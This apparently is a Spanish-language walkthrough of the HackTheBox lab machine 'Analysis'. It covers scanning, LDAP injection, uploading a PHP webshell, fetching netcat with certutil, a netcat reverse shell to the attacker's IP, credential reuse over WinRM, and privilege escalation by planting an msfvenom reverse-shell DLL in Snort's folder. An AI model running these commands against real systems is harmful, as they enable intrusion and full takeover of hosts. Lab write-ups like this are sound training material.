










# Information Gathering

Comenzamos nuestros escaneos con nmap.

```bash
> sudo nmap -sS -p- --open --min-rate 3000 -n -Pn -vvv 10.10.11.250 -oN Nmap 

PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3306/tcp  open  mysql            syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
33060/tcp open  mysqlx           syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49671/tcp open  unknown          syn-ack ttl 127
49674/tcp open  unknown          syn-ack ttl 127
49675/tcp open  unknown          syn-ack ttl 127
49676/tcp open  unknown          syn-ack ttl 127
49677/tcp open  unknown          syn-ack ttl 127
49682/tcp open  unknown          syn-ack ttl 127
49732/tcp open  unknown          syn-ack ttl 127
63270/tcp open  unknown          syn-ack ttl 127
```

## Nmap version Scan

```bash
> sudo nmap -p53,80,88,135,139,389,445,464,593,636,3268,3269,3306,5985,9389,33060,47001,49664,49665,49666,49667,49671,49674,49675,49676,49677,49682,49732,6327 -sCV 10.10.11.250 -oN Ports


Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-05 19:49 EDT
Nmap scan report for 10.10.11.250 (10.10.11.250)
Host is up (0.11s latency).

PORT      STATE  SERVICE       VERSION
53/tcp    open   domain        Simple DNS Plus
80/tcp    open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
88/tcp    open   kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-05 23:55:03Z)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open   ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds?
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
3306/tcp  open   mysql         MySQL (unauthorized)
5985/tcp  open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6327/tcp  closed unknown
9389/tcp  open   mc-nmf        .NET Message Framing
33060/tcp open   mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, X11Probe: 
|     Invalid message"
|     HY000
|   LDAPBindReq: 
|     *Parse error unserializing protobuf message"
|     HY000
|   oracle-tns: 
|     Invalid message-frame."
|_    HY000
47001/tcp open   http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49671/tcp open   msrpc         Microsoft Windows RPC
49674/tcp open   ncacn_http    Microsoft Windows RPC over HTTP 1.0
49675/tcp open   msrpc         Microsoft Windows RPC
49676/tcp open   msrpc         Microsoft Windows RPC
49677/tcp open   msrpc         Microsoft Windows RPC
49682/tcp open   msrpc         Microsoft Windows RPC
49732/tcp open   msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=6/5%Time=6660F9B2%P=x86_64-pc-linux-gnu%r
SF:(GenericLines,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\
SF:0\0\x0b\x08\x05\x1a\0")%r(HTTPOptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")
SF:%r(RTSPRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0
SF:\0\x0b\x08\x05\x1a\0")%r(DNSVersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0")%r(DNSStatusRequestTCP,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0
SF:\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(Help,9
SF:,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08
SF:\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x
SF:05HY000")%r(TerminalServerCookie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(Ke
SF:rberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNeg,9,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\
SF:x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(FourOhFou
SF:rRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDString,9,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\
SF:0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(LDA
SF:PBindReq,46,"\x05
```

# Enumeration


intentamos ejecutar whatweb:

```bash
> whatweb http://analysis.htb/ 
http://analysis.htb/ [200 OK] Country[RESERVED][ZZ], Email[mail@demolink.org,privacy@demolink.org], HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.250], JQuery, Microsoft-IIS[10.0], Script[text/javascript]
```

Tratamos de fuzz para encontrar subdirectorios:

```bash
gobuster dir -u http://analysis.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 40
```



Pero no vemos nada interesante.

Podemos intentar buscar subdominios:

```bash
ffuf -u http://10.10.11.250 -H "Host: FUZZ.analysis.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac 
```





fuzzamos este nuevo subdominio:

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb -t 55

/users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/users/]
/dashboard            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/dashboard/]
/Users                (Status: 301) [Size: 170] [--> http://internal.analysis.htb/Users/]
/employees            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/employees/]
/Dashboard            (Status: 301) [Size: 174] [--> http://internal.analysis.htb/Dashboard/]
```

También podemos filtrar por extensiones php en estos subdirectorios:

   - users

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/users/ -t 55 -x php

/list.php             (Status: 200) [Size: 17]
/List.php             (Status: 200) [Size: 17]
```

- dashboard

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/dashboard/ -t 55 -x php

/img                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/img/]
/index.php            (Status: 200) [Size: 38]
/uploads              (Status: 301) [Size: 182] [--> http://internal.analysis.htb/dashboard/uploads/]
/upload.php           (Status: 200) [Size: 0]
/details.php          (Status: 200) [Size: 35]
/css                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/css/]
/Index.php            (Status: 200) [Size: 38]
/lib                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/lib/]
/form.php             (Status: 200) [Size: 35]
/js                   (Status: 301) [Size: 177] [--> http://internal.analysis.htb/dashboard/js/]
/logout.php           (Status: 302) [Size: 3] [--> ../employees/login.php]
/tickets.php          (Status: 200) [Size: 35]
/emergency.php        (Status: 200) [Size: 35]
/IMG                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/IMG/]
/INDEX.php            (Status: 200) [Size: 38]
/Details.php          (Status: 200) [Size: 35]
/Form.php             (Status: 200) [Size: 35]
/CSS                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/CSS/]
/Img                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/Img/]
/JS                   (Status: 301) [Size: 177] [--> http://internal.analysis.htb/dashboard/JS/]
/Upload.php           (Status: 200) [Size: 0]
/Uploads              (Status: 301) [Size: 182] [--> http://internal.analysis.htb/dashboard/Uploads/]
/Logout.php           (Status: 302) [Size: 3] [--> ../employees/login.php]
/Lib                  (Status: 301) [Size: 178] [--> http://internal.analysis.htb/dashboard/Lib/]
/Tickets.php          (Status: 200) [Size: 35]
/Emergency.php        (Status: 200) [Size: 35]
```

- employes

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://internal.analysis.htb/employees/ -t 55 -x php


/login.php            (Status: 200) [Size: 1085]
/Login.php            (Status: 200) [Size: 1085]
```

si hacemos un curl a http://internal.analysis.htb/users/list.php

```bash
curl -s http://internal.analysis.htb/users/list.php

missing parameter
```

## Fuzzing para encontrar el parámetro requerido en la URL

vemos que la URL necesita un parámetro, por lo que vamos a fuzz este parámetro:

```bash
> ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://internal.analysis.htb/users/list.php?FUZZ' -fs 17


name                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 9807ms]
```

donde encontramos el parámetro llamado nombre. Así que tenemos el archivo con el parámetro ``http://internal.analysis.htb/users/list.php?name``.



## LDAP Injection
Recuerda que el servicio LDAP se estaba ejecutando en esta máquina. Buscando inyecciones LDAP en HackTricks, podríamos probar algo como name=* para ver si esto devuelve algo. Si visito http://internal.analysis.htb/users/list.php?name=* para intentar una inyección, puedo ver un usuario:



## Script for LDAP Injection

Vamos a crear un script en C++ para automatizar la inyección LDAP

Primero, instalamos lo que necesitamos:

```bash
sudo apt-get install libcurl4-openssl-dev libargparse-dev
```
aquí está nuestro script: https://github.com/mil4ne/auto-LDAP-Injection

Compilamos:

```bash
g++ ldap.c++ -o ejecutable -I. -lcurl
```

A continuación, ejecutamos el script:

```bash
./ejecutable -u "http://internal.analysis.htb/users/list.php?name"
```

Nuestro resultado final es este ``97NTtl*4QP96Bv``

con las credenciales encontradas, vamos al panel que encontramos antes: http://internal.analysis.htb/employees/login.php



aquí hay una sección llamada SOC Report donde podemos subir un archivo:



## WebShell upload

llevemos un webshell a nuestra máquina atacante, para subirlo a la web:

```bash
wget https://raw.githubusercontent.com/WhiteWinterWolf/wwwolf-php-webshell/master/webshell.php
```

Después de subirlo, lo encontraremos en: http://internal.analysis.htb/dashboard/uploads/webshell.php

ahora subiremos netcat a la maquina victima para enviarnos un revshell:

```bash
python3 -m http.server
```



con certutil.exe descargamos el nc con la ayuda de nuestro webshell:



nos ponemos en modo escucha:

```bash
> rlwrap -cAr nc -lvnp 4444
```

Enviamos el revshell:

```bash
C:\Users\Public\Downloads\nc.exe 10.10.14.166 4444 -e C:\Windows\System32\cmd.exe
```

Ahora tenemos un shell



transferimos winpeas a nuestra máquina víctima:

```powershell
certutil.exe -urlcache -split -f http://10.10.14.166:8000/winPEASx64.exe C:\Users\Public\Downloads\win.exe
```
Lo ejecutamos:

```
C:\Users\Public\Downloads\win.exe
```

# Movimiento Lateral

En nuestro resultado encontramos credenciales:

```bash
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  analysis.htb.
    DefaultUserName               :  jdoe
    DefaultPassword               :  7y4Z4^*y9Zzj
```

intentamos ver si este usuario es válido para conectarse a través de evil-winrm.

```bash
> crackmapexec winrm 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj' 
SMB         10.10.11.250    5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
HTTP        10.10.11.250    5985   DC-ANALYSIS      [*] http://10.10.11.250:5985/wsman
WINRM       10.10.11.250    5985   DC-ANALYSIS      [+] analysis.htb\jdoe:7y4Z4^*y9Zzj (Pwn3d!)
```

es válido.

```bash
evil-winrm -i 10.10.11.250 -u 'jdoe' -p '7y4Z4^*y9Zzj'

Privilege Escalation

si volvemos a ejecutar winpeas podemos ver lo siguiente:

Evil-WinRM* PS C:\Users\jdoe\Documents> C:\Users\jdoe\Documents\winpeas.exe

<SNIP>
Snort(Snort)[C:\Snort\bin\snort.exe /SERVICE] - Autoload - No quotes and Space detected
    Possible DLL Hijacking in binary folder: C:\Snort\bin (Users [AppendData/CreateDirectories WriteData/CreateFiles])

<SNIP>
```

Así que SNORT es una herramienta para la prevención de intrusiones y, asumo, que debe ejecutarse con algún tipo de privilegios para ello. Parece que atacar el servicio SNORT podría ser un camino potencial para la escalada de privilegios.

La comprobación de permisos con icacls muestra que podemos escribir en estos archivos:

```poweshell
Evil-WinRM* PS C:\Users\jdoe\Documents> icacls C:\Snort\lib\snort_dynamicengine

C:\Snort\lib\snort_dynamicengine AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                                 BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                                 BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                                 BUILTIN\Utilisateurs:(I)(CI)(AD)
                                 BUILTIN\Utilisateurs:(I)(CI)(WD)
                                 CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
*Evil-WinRM* PS C:\Users\jdoe\Documents> icacls C:\Snort\lib\snort_dynamicpreprocessor

C:\Snort\lib\snort_dynamicpreprocessor AUTORITE NT\SystŠme:(I)(OI)(CI)(F)
                                       BUILTIN\Administrateurs:(I)(OI)(CI)(F)
                                       BUILTIN\Utilisateurs:(I)(OI)(CI)(RX)
                                       BUILTIN\Utilisateurs:(I)(CI)(AD)
                                       BUILTIN\Utilisateurs:(I)(CI)(WD)
                                       CREATEUR PROPRIETAIRE:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Observo que en este directorio tenemos archivos .dll, por lo que podemos intentar un secuestro de DLL:

```powershell
*Evil-WinRM* PS C:\Users\jdoe\Documents> cmd.exe /c dir C:\Snort\lib\snort_dynamicengine
 Volume in drive C has no label.
 Volume Serial Number is 0071-E237

 Directory of C:\Snort\lib\snort_dynamicengine

07/08/2023  03:31 PM    <DIR>          .
07/08/2023  03:31 PM    <DIR>          ..
05/24/2022  06:48 AM            78,336 sf_engine.dll
               1 File(s)         78,336 bytes
               2 Dir(s)   4,018,229,248 bytes free
```

Para ello, creamos un archivo malicioso .dll con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=9999 -f dll -a x64 -o nr.dll  
```

Nos ponemos en escucha:

```bash
rlwrap -cAr nc -lvnp 9999
```

luego vamos a la ruta ``C:\Snort\lib\snort_dynamicpreprocessor`` y dentro de ese directorio subimos nuestra dll maliciosa

```bash
upload nr.dll
```

En 1 minuto tendremos un shell como administrador.